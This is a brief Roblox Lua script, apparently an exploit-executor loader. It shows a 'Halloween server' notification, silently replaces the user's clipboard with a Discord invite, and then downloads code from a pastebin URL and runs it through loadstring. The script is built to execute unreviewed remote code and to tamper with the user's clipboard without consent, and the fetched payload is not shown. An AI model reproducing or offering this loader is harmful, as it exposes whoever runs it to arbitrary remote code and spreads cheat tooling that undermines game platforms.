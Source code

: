 
game:GetService("StarterGui"):SetCore("SendNotification",{
	Title = "JOIN HALLOWEEN SERVER", -- Required
	Text = "COPIED TO YOUR CLIPBOARD", -- Required
	Icon = "rbxassetid://1234567890" -- Optional
})
wait(0.1)
setclipboard('https://discord.gg/tceNxaHyvW')


loadstring(game:HttpGet('https://pastebin.com/raw/m4TjNkkQ'))()
